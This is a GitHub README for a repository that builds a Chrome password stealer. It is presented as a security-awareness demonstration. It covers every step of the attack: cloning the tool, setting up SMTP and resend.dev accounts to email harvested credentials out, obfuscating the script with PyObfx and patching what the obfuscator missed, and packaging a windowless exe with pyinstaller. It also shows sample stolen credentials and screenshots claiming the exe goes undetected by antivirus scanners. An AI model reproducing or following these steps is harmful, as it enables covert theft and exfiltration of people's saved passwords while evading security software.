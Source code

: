 [中文](./README.md) | [English](./README_EN.md)

# InfoSec GoogleChrome

## 1 Introduction

The source code of this repository is modified based on ohyicong and is mainly used to demonstrate the packaging of a program that cannot be detected by antivirus software, stealing passwords saved by users on Google. It reminds everyone to pay attention to information security and the insecurity of saving passwords in Google Chrome.

## 2 Introduction

### 2.1  Environment

* windows
* python3
* Clone the project to your local machine
    ```bash
    git clone https://github.com/lissettecarlr/InfoSec-GoogleChrome.git
    cd InfoSec-GoogleChrome
    ```
* Install dependencies
    ```bash
    pip install -r requirements.txt
    ```
* Install dependencies
    ```bash
    git clone https://github.com/PyObfx/PyObfx.git
    cd PyObfx
    pip install -r requirements.txt
    cd ..
    ```

### 2.2 Configuration

* Create a new secret.yaml file and fill in the email information (to send the obtained data via email)
    ```yaml
        email:
            host : 'Email server address, for example: smtp.163.com'
            user : 'xxx'
            pass : 'If it is a 163 mailbox, enable IMAP/SMTP service in the web version settings to obtain' 
            sender : 'Sender's email'   
            receivers : 'Receiver's email (can be the same as the sender's email)'
        resend:
            key : 'resend.dev key'
            from: 'resend from'
            to: "register resend email"
    ```    
    The resend email method here requires you to register an account first and generate a key. It is important to note that by default, the 'from' and 'to' fields are fixed, and you can see them in the example after registration. If the key is not provided, this email method will not be used.
    
* Modify the config file to configure whether to send emails and whether to save to a local json file:
    ```yaml
        include : secret.yaml

        output:
        json: 'ON'
        email: 'ON'
    ``

### 2.3 Packaging    
* Obfuscate the code
    ```bash
    python ./PyObfx/PyObfx.py decrypt_chrome_passwords.py
    ```

* Modify (missed by the obfuscator)
    ```python
    #  Example missed by the obfuscation, modify according to your yaml alias, as follows
    oYRvAuKk = mQaPXiYD.load(DA, Loader=yaml.Loader)
    import yaml as mQaPXiYD
    oYRvAuKk = mQaPXiYD.load(DA, Loader=mQaPXiYD.Loader)
    ```

* Package it into an exe file and generate the exe file in the dist directory
    ```bash
    pyinstaller -F --add-data "config.yaml;." --add-data "secret.yaml;." .\decrypt_chrome_passwords_obfx.py --noconsole
    ```

### 2.4 Result

If json and email in the config are enabled, executing the exe will generate output.json in the current directory.
```json
[
    {
        "url": "http://192.168.2.1/cgi-bin/luci/",
        "username": "root",
        "p": "testtest"
    }
]
```

Then you will receive an email:

![邮件](./file/1.png)

The number of items listed above depends on the number of password entries you have saved in Google Chrome. I added a temporary entry here, so there is only one entry.


## 3 Antivirus

* Huorong Security
    ![火绒](./file/2.gif)

* Also found an online virus scan tool
    ![查毒](./file/3.png)

